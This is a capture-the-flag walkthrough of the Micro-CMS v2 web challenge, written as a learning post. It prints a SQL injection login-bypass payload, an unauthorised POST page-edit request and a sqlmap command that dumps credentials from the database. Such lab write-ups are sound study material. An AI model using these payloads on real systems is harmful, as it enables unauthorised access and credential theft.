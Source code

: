  Micro-CMS v2 - Web CTF Walkthrough

🏆 Challenge Overview

- Challenge Name: Micro-CMS v2  
- Category: Web  
- Difficulty: Moderate  
- Flags: 3  

Hey everyone! I'm Divyanshu Kumar, a cybersecurity enthusiast. In this post, I’ll walk you through my experience solving the Micro-CMS v2 CTF challenge. This is part of my series where I explore cybersecurity concepts through CTF (Capture The Flag) walkthroughs.

⚠️ Disclaimer: I’m still learning, and these posts are meant to document and share my knowledge as I grow in the cybersecurity field. Now, let’s dive into the challenge! 🕵️‍♂️

---

 Flag 0: SQL Injection Authentication Bypass

 Exploitation
The login page of the application is vulnerable to SQL injection. Entering a single quote (`'`) in the username field results in a 500 Internal Server Error, indicating that the application is improperly handling SQL queries.

To exploit this, we use a simple SQL injection payload to bypass authentication:

```sql
username=usr' UNION SELECT 'pass';--`
password=pass
```

 Outcome
This payload allows us to log in successfully. However, we are prompted with a message:

> "You got logged in, congrats! Do you have the real username and password? If not, might want to do that!"

This suggests that further enumeration might be required to retrieve actual credentials.
Now that we’re logged in, we can now see “Private Page”, which will reveal the flag!

![image](https://github.com/user-attachments/assets/21fd74c4-29b5-471e-9130-d0346a923fe3)


---

 Flag 1: Exploiting Improper HTTP Method Handling

 Issue Identified
In Micro-CMS v1, we had the ability to edit and create pages, which is no longer possible in v2 through GET requests. However, by analyzing the application, we can attempt to send a POST request to modify pages.

 Exploitation
Using Burp Suite or a simple cURL request, we send a POST request to `/page/edit/1` instead of a GET request:


```http
POST /page/edit/1 HTTP/1.1
Host: target-site.com
Content-Type: application/x-www-form-urlencoded

page_content=NewContent
```


 Outcome
Upon executing this, we successfully retrieve Flag 1.

![Screenshot 2025-03-02 225708](https://github.com/user-attachments/assets/bfe611b2-62d0-4c70-b491-9474178953cf)


---

 Flag 2: Extracting Credentials Using SQLMap

 Preparation
We create a text file (`h.txt`) containing an intercepted login request using Burp Suite or browser’s Developer Tools → Network Tab.

```http
POST /login HTTP/1.1
Host: target-site.com
Content-Type: application/x-www-form-urlencoded

username=admin&password=admin
```

 SQLMap Execution
Using the saved request, we run SQLMap to extract credentials:

```bash
sqlmap -r h.txt --batch --proxy="http://127.0.0.1:8080" --random-agent -p username --level=2 --risk=2 --dump --force-ssl
```






 Outcome
- The command dumps the database, revealing the username and password.
- Using these credentials, we log in and retrieve Flag 2.

  
![Screenshot 2025-03-03 142800](https://github.com/user-attachments/assets/3fb988cd-a3f1-46ac-afff-d20bb570c782)

---

 Conclusion
The Micro-CMS v2 CTF challenge demonstrates several common web vulnerabilities:
1. SQL Injection to bypass authentication.
2. Improper HTTP Method Handling allowing unauthorized modifications.
3. Database Extraction using automated tools like SQLMap.

These vulnerabilities highlight the importance of secure coding practices such as prepared statements, proper HTTP method validation, and limiting SQL query exposure.

